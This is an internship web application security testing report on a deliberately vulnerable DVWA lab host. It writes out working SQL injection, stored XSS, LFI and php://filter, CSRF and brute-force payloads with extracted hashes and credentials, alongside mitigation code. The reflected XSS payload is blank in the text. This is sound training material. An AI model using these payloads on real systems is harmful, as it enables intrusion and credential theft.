# Security Testing Report — Web Application Security
### ApexPlanet Internship | Task 3 Deliverable
**Target:** DVWA on Metasploitable2 (192.168.56.104)
**Tester:** Professorshubhx 
**Test Date:** May 2026
**Environment:** Isolated lab — Host-Only Network (192.168.56.0/24)

---

## Executive Summary

A comprehensive web application security assessment was performed against DVWA (Damn Vulnerable Web Application) running on Metasploitable2. Six vulnerability classes from the OWASP Top 10 were tested — SQL Injection, Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF), File Inclusion, Burp Suite-based login attacks, and Web Security Header analysis.

All tested vulnerabilities were successfully exploited on the Low security level, demonstrating critical weaknesses in the application. Mitigation recommendations and security header improvements were also implemented and verified.

| Vulnerability | Result | Severity |
|--------------|--------|----------|
| SQL Injection | Exploited — full database dumped | Critical |
| Stored XSS | Exploited — JavaScript executed | High |
| Reflected XSS | Exploited — payload in URL | High |
| CSRF | Exploited — admin password changed | High |
| Local File Inclusion | Exploited — /etc/passwd and DB config read | High |
| PHP Filter Wrapper | Exploited — source code extracted | High |
| Burp Intruder Brute Force | Exploited — correct password found | Medium |
| Web Security Headers | Missing before fix, added after | Medium |

---

## 1. SQL Injection

### Target
```
URL: http://192.168.56.104/dvwa/vulnerabilities/sqli/
Parameter: id (GET)
Security Level: Low
```

### Step 1 — Vulnerability Confirmation

Input `'` (single quote) in the User ID field.

**Result:** MySQL syntax error returned directly to the browser:
```
You have an error in your SQL syntax; check the manual that corresponds
to your MySQL server version for the right syntax to use near ''''' at line 1
```

The application passes user input directly into the SQL query without sanitization. Vulnerability confirmed.

**Screenshot:**  — MySQL error on single quote input
**Screenshot:**  — Normal response with id=1 (admin/admin)

---

### Step 2 — Database and User Enumeration (UNION Attack)

**Payload used:**
```
' UNION SELECT user(),database()-- -
```

**Result extracted:**
```
First name: root@localhost
Surname: dvwa
```

Database is running as `root@localhost` — the highest privilege MySQL user. Current database name is `dvwa`.

**Screenshot:** 

---

### Step 3 — Table Enumeration

**Payload used:**
```
' UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema=database()-- -
```

**Tables found:**
```
guestbook
users
```

**Screenshot:** 

---

### Step 4 — Password Hash Extraction

**Payload used:**
```
' UNION SELECT user,password FROM users#
```

**All credentials extracted:**

| Username | MD5 Hash | Cracked Password |
|----------|----------|-----------------|
| admin | 5f4dcc3b5aa765d61d8327deb882cf99 | password |
| gordonb | e99a18c428cb38d5f260853678922e03 | abc123 |
| 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b | charley |
| pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein |
| smithy | 5f4dcc3b5aa765d61d8327deb882cf99 | password |

Complete user database extracted including all password hashes.

**Screenshot:** 

---

### SQL Injection — Risk Analysis

| Field | Detail |
|-------|--------|
| OWASP Category | A03:2021 — Injection |
| CVSS Score | 9.8 Critical |
| Attack Vector | Network, no authentication |
| Impact | Full database access, authentication bypass, potential RCE via INTO OUTFILE |

### Mitigation

**Vulnerable code (string concatenation):**
```php
$query = "SELECT * FROM users WHERE user_id = '$id'";
```

**Fixed code (prepared statement):**
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE user_id = ?");
$stmt->bind_param("s", $id);
$stmt->execute();
```

Additional controls: input validation, least privilege database user, disable MySQL error display.

---

## 2. Cross-Site Scripting (XSS)

### 2a — Stored XSS

**Target:**
```
URL: http://192.168.56.104/dvwa/vulnerabilities/xss_s/
Field: Message (guestbook)
Security Level: Low
```

**Payload injected:**
```html
<script>alert('XSS by Professorshubhx')</script>
```

**Result:** JavaScript alert popup appeared — `XSS by Professorshubhx` — triggered from 192.168.56.104. The script is now stored in the database and will execute for every user who visits the guestbook page.

**Screenshot:**  — Alert popup showing "XSS by Professorshubhx"

---

### 2b — Reflected XSS

**Target:**
```
URL: http://192.168.56.104/dvwa/vulnerabilities/xss_r/
Parameter: name (GET)
Security Level: High
```

Even on High security, the `` tag payload bypassed the filter:

**Payload used:**
```html

```

**Full URL:**
```
http://192.168.56.104/dvwa/vulnerabilities/xss_r/?name=#
```

**Result:** The page reflected the payload unescaped: `Hello ` — demonstrating that the filter blocked `<script>` tags but not event handler attributes on other HTML tags.

**Screenshot:** 

---

### XSS — Risk Analysis

| Field | Detail |
|-------|--------|
| OWASP Category | A03:2021 — Injection |
| CVSS Score | 7.5 High |
| Attack Vector | Network |
| Impact | Session hijacking, credential theft, defacement, phishing |

### Mitigation

```php
// Output encoding
echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
```

```apache
# Content Security Policy
Header set Content-Security-Policy "default-src 'self'; script-src 'self';"

# HttpOnly cookies
Header edit Set-Cookie ^(.*)$ $1;HttpOnly;Secure
```

---

## 3. Cross-Site Request Forgery (CSRF)

### Target
```
URL: http://192.168.56.104/dvwa/vulnerabilities/csrf/
Security Level: Low
```

### Attack Setup

**Step 1:** Intercepted the legitimate password change request in Burp Suite.

The CSRF page uses a GET request with no CSRF token:
```
GET /dvwa/vulnerabilities/csrf/?password_new=admin&password_conf=admin&Change=Change
Cookie: security=low; PHPSESSID=da650c268e7863ccef13fb37ab65ccf8
```

**Screenshot:**  — Burp Suite showing the intercepted GET request

**Step 2:** Created a malicious HTML page hosted on the attacker machine (`192.168.172.200/csrf.html`) with a hidden form and a "Free Gift" social engineering link.

**Screenshot:**  — CSRF attack page at 192.168.172.200/csrf.html

**Step 3:** While logged into DVWA as admin, visited the attacker page and clicked the link.

**Result:** DVWA displayed "Password Changed" — the admin password was silently changed via the forged request using the victim's active session cookie.

**Screenshot:**  — Burp showing the forged GET request being sent
**Screenshot:**  — DVWA confirming "Password Changed"

---

### CSRF — Risk Analysis

| Field | Detail |
|-------|--------|
| OWASP Category | A01:2021 — Broken Access Control |
| CVSS Score | 8.8 High |
| Attack Vector | Network, requires user interaction |
| Impact | Unauthorized state-changing actions on behalf of victim |
| Root Cause | No CSRF token, state-changing action via GET request |

### Mitigation

```php
// Generate and validate CSRF token
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));

// Embed in form
<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">

// Validate on submission
if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
    die("CSRF validation failed");
}
```

Additional controls: Use POST not GET for state-changing actions, SameSite cookie attribute.

---

## 4. File Inclusion

### 4a — Local File Inclusion (LFI)

**Target:**
```
URL: http://192.168.56.104/dvwa/vulnerabilities/fi/
Parameter: page (GET)
Security Level: Low
```

**Payload — /etc/passwd:**
```
?page=../../../../../../etc/passwd
```

**Result:** Full contents of `/etc/passwd` displayed — revealing all system users including `msfadmin`, `root`, service accounts, and their home directories and shells.

**Screenshot:**  — /etc/passwd contents displayed

---

**Payload — Database Config (direct path):**
```
?page=../../config/config.inc.php
```

**Result:** DVWA config file included — page renders but PHP warnings appear revealing the file path `/var/www/dvwa/config/config.inc.php`.

**Screenshot:** 

---

### 4b — PHP Filter Wrapper (Source Code Extraction)

**Payload:**
```
?page=php://filter/convert.base64-encode/resource=../../config/config.inc.php
```

**Result:** Base64-encoded PHP source code returned at top of page. Decoded in terminal:

```bash
echo "PD9waH..." | base64 -d
```

**Decoded output revealed:**
```php
$_DVWA['db_server']   = 'localhost';
$_DVWA['db_database'] = 'dvwa';
$_DVWA['db_user']     = 'root';
$_DVWA['db_password'] = '';
```

Database credentials extracted via LFI + PHP filter wrapper:
- Server: localhost
- Database: dvwa
- Username: root
- Password: (empty)
### php://filter Wrapper Base64 Output



### Decoded Database Configuration



---

### File Inclusion — Risk Analysis

| Field | Detail |
|-------|--------|
| OWASP Category | A01:2021 — Broken Access Control |
| CVSS Score | 8.1 High |
| Attack Vector | Network |
| Impact | Sensitive file read (credentials, config, system files), potential RCE via log poisoning |

### Mitigation

```php
// Whitelist approach — only allow specific pages
$allowed = ['home', 'about', 'contact'];
if (!in_array($_GET['page'], $allowed)) {
    die("Invalid page");
}

// realpath() check
$base = '/var/www/html/pages/';
$path = realpath($base . $_GET['page']);
if (strpos($path, $base) !== 0) {
    die("Access denied");
}
```

```ini
# php.ini
allow_url_include = Off
open_basedir = /var/www/html/
```

---

## 5. Burp Suite — Login Brute Force (Intruder)

### Target
```
URL: http://192.168.56.104/dvwa/login.php
Method: POST
Tool: Burp Suite Community Edition v2026.3.2
```

### Attack Setup

Intercepted the DVWA login POST request in Burp Proxy:
```
POST /dvwa/login.php
username=admin&password=admin&Login=Login
```

### Intercepted Login Request in Burp Suite


The screenshot shows Burp Suite intercepting the HTTP login request containing the parameters `username=admin&password=admin&Login=Login`.

Sent to Intruder → Sniper attack → marked `password` parameter as payload position → loaded wordlist with common passwords.

### Results

### Burp Intruder Attack Results



The Intruder results table shows multiple password attempts, where the successful login attempt returned a different HTTP response status (`302 Found`), indicating successful authentication.

| Request | Payload | Status | Length |
|---------|---------|--------|--------|
| 0 | (empty) | 302 | 392 |
| 1 | (empty) | 302 | 391 |
| 3 | 1234556 | 302 | 391 |
| 4 | admin | 302 | 392 |
| 5 | **password** | **302** | **391** |
| 6 | toor | 302 | 391 |
| 7 | kali | 302 | 392 |

All attempts returned 302 redirect — this indicates DVWA redirects both success and failure. The response length difference (391 vs 392) distinguishes successful login. Payload `password` confirmed as correct credential for `admin`.

---

### Burp Intruder — Risk Analysis

| Field | Detail |
|-------|--------|
| OWASP Category | A07:2021 — Identification and Authentication Failures |
| Impact | Account takeover through automated credential attack |
| Root Cause | No rate limiting, no account lockout, weak password |

### Mitigation

- Account lockout after 5 failed attempts
- Rate limiting on login endpoint
- CAPTCHA after multiple failures
- Strong password policy enforcement
- Multi-factor authentication

---

## 6. Web Security Headers

### Before — Missing Headers

**Command run:**
```bash
curl -I http://192.168.56.104/dvwa/
```

**Headers returned (before fix):**
```
HTTP/1.1 302 Found
Server: Apache/2.2.8 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-2ubuntu5.10
Set-Cookie: PHPSESSID=b84892f93e970302774794aede748e6e; path=/
Set-Cookie: security=high
```

**Missing security headers:**
- X-Frame-Options — not present (clickjacking possible)
- X-Content-Type-Options — not present (MIME sniffing possible)
- Content-Security-Policy — not present (XSS not mitigated at header level)
- Referrer-Policy — not present
- Strict-Transport-Security — not present

**Also exposed:**
- `Server: Apache/2.2.8` — reveals outdated Apache version
- `X-Powered-By: PHP/5.2.4` — reveals PHP version

